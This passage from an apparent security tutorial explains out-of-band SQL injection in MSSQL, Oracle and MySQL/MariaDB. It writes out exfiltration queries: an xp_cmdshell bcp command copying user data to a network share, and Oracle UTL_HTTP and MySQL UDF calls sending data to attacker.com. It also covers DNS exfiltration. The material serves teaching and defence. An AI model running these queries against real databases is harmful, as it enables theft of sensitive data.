 In MSSQL, Out-of-band SQL injection can be performed using features like xp_cmdshell, which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

 
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';

        

Alternatively, OPENROWSET or BULK INSERT can be used to interact with external data sources, facilitating data exfiltration through OOB channels.

Oracle

In Oracle databases, Out-of-band SQL injection can be executed using the UTL_HTTP or UTL_FILE packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:

 
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;

        

Examples of Out-of-band Techniques

Out-of-band SQL injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.

HTTP Requests

By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;.

HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

DNS Exfiltration 

Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.
